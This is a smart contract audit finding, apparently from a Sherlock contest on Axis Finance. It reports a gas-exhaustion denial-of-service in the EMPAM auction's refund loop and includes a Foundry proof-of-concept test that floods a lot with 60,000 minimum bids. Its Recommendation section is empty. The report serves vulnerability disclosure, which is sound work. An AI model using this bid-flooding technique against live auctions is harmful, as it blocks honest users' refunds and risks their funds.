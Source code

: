 ## Vulnerability Detail

An attacker can send valid bids with amounts equal to the minimum allowed amount for a bid. If enough bids are sent, users that bid after him won't be able to get refunded if they want to. Scenario:

- Attacker sends lots of bids just after auction creation.
- User sends bids
- User wants to refund some of them: The _refundBid function on the EMPAM module loops through all the bids to find the requested one, then pops it out of the decryption array. If there are too many bids before the one we are looking fur, gas can run out.

## Impact
Breaks the refund functionality. User won't be able to refund bid. Possible loss of funds.

## Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/modules/auctions/EMPAM.sol#L284-L305

Putting this test on the EMPA refund bid [tests](https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/test/modules/auctions/EMPA/refundBid.t.sol) file can show how its performed.

```solidity
    function test_audit_dos_bids() public givenLotIsCreated givenLotHasStarted givenBidIsCreated(2e18, 1e18){
        uint bidNums = 60000;
        //worst case scenario for attack is: max limit for block, only tx in the block. This doesnt take in account the gas spent on entrypoint.
        uint ETH_GAS_LIMIT = 30_000_000;

        // attacker bids
        for (uint i=0;i < bidNums; i++)
            _createBid(1e18, 1e18); //amount can be as small as possible

        uint64 normalUserBid = _createBid(2e18, 1e18);
        uint256 gasBefore = gasleft();

        vm.prank(address(_auctionHouse));
        uint256 refundAmount = _module.refundBid(_lotId, normalUserBid, _BIDDER);
        uint256 gasAfter = gasleft();

        uint256 gasUsed = gasBefore - gasAfter;
        assertEq(gasUsed > ETH_GAS_LIMIT,true, "out of gas");
    }
```

## Tool used

Manual Review

## Recommendation

